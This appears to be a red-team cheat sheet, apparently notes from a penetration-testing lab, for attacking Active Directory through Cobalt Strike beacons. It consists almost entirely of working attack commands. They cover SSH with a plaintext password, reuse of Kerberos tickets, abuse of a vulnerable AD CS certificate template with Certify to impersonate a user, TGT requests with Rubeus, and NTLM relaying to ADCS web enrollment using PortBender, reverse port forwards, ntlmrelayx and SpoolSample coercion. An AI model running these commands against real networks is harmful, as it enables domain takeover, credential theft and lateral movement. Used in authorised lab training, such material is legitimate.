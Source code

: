 ###### <font style="color:#00b3ff">SSH with beacon</font> 
```
beacon> ssh 10.10.17.12:22 svc_oracle Passw0rd!
```

###### <font style="color:#00b3ff">Use ccache in CS</font> 
```
beacon> kerberos_ccache_use C:\Users\Administrator\Desktop\krb5cc_1394201122_MerMmG

Convert ccache to kirbi with Impacket:
	root@kali:~# impacket-ticketConverter krb5cc_1394201122_MerMmG jking.kirbi
```

###### <font style="color:#00b3ff">Find AD CS Certificate Authorities (CA's) in a domain or forest</font> 
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

###### <font style="color:#00b3ff">Find vulnerable templates</font> 
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```

###### <font style="color:#00b3ff">Request certificate for user nglover</font> 
```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.cyberbotic.io\ca-1 /template:VulnerableUserTemplate /altname:nglover

Convert to pfx:
	root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
	cat cert.pfx | base64 -w 0 

Request TGT with the pfx:
	beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /aes256 /nowrap
```

###### <font style="color:#00b3ff">NTLM Relaying to ADCS HTTP Endpoints</font> 
```
We cannot relay NTLM to the same machine. 
Use PortBender to capture incoming traffic on port 445 and redirect it to port 8445.
Start a reverse port forward to forward traffic hitting port 8445 to the Team Server on port 445.
Start a SOCKS proxy for ntlmrelayx to send traffic back into the network.

	beacon> PortBender redirect 445 8445
	beacon> rportfwd 8445 127.0.0.1 445
	beacon> socks 1080

root@kali:~# proxychains ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server

Remote authentication methods to force a connection from WKSTN-3 to SRV-1

	beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe 10.10.15.254 10.10.17.25
```
